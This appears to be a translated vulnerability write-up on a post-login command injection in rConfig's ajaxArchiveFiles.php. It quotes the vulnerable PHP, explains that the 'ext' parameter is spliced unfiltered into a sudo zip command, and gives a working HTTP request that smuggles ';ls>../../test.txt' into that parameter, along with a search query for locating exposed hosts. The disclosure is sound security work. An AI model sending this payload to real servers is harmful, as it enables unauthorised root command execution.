 # rConfig ajaxArchiveFiles.php Background Remote Command Execution Vulnerability

## Vulnerability Description

Due to the command splicing of path parameters and ext parameters in the rConfig ajaxArchiveFiles.php file, the attacker can remotely execute commands to obtain server permissions

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">rConfig</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="rConfig"</span>

## Vulnerability reappears

Files with vulnerability

`/home/rconfig/www/lib/ajaxHandlers/ajaxArchiveFiles.php`

```php
<?php
require_once("/home/rconfig/classes/usersession.class.php");
require_once("/home/rconfig/classes/ADLog.class.php");
require_once("/home/rconfig/config/functions.inc.php");
$log = ADLog::getInstance();
if (!$session->logged_in) {
    echo 'Don\'t bother trying to hack me!!!!!<br /> This hack attempt has been logged';
    $log->Warn("Security Issue: Some tried to access this file directly from IP: " . $_SERVER['REMOTE_ADDR'] . " & Username: " . $session->username . " (File: " . $_SERVER['PHP_SELF'] . ")");
    // need to add authentication to this script
    header("Location: " . $config_basedir . "login.php");
} else {
//archive logs files
    $mainPath = $_GET['path'];
    $archiveMainPath = $mainPath . "archive/";
    $ext = "*." . $_GET['ext'];
    $fullpath = $mainPath . $ext;
// create and archive dir if not already created
    if (!is_dir($archiveMainPath)) {
        mkdir("$archiveMainPath");
    }
    $today = date("Ymd");
    $commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
    exec($commandString);
    foreach (glob($fullpath) as $v) {
        unlink($v);
    }

    $fileCount = count(glob($mainPath . $ext));

    if ($fileCount > 0) {
        $response = json_encode(array(
            'failure' => true
        ));
    } else {
        $response = json_encode(array(
            'success' => true
        ));
    }
    echo $response;
}  // end session check
```



The key code is as follows



```php
$mainPath = $_GET['path'];
    $archiveMainPath = $mainPath . "archive/";
    $ext = "*." . $_GET['ext'];
    $fullpath = $mainPath . $ext;
// create and archive dir if not already created
    if (!is_dir($archiveMainPath)) {
        mkdir("$archiveMainPath");
    }
    $today = date("Ymd");
    $commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
    exec($commandString);
```

`ext parameter` user controllable

```php
$commandString = "sudo -u apache zip -r -j " . $archiveMainPath . "filename" . $today . ".zip " . $mainPath . $ext;
```



The command is not directly spliced ​​without filtering, resulting in the command execution, and the root permission is executed because of sudo. Since it is a background vulnerability, you need to log in. You can create it with any user.



The request package is



```plain
GET /lib/ajaxHandlers/ajaxArchiveFiles.php?path=1&ext=;ls%3E../../test.txt HTTP/1.1
Host: 
Cookie: cookname=testtest; cookid=a13be657db5e18e453c66c564467b0f2; PHPSESSID=lr7j5r2beat1eprpklrhiorq71
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 2
```



Request /test.txt verification vulnerability



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/rc-5.png)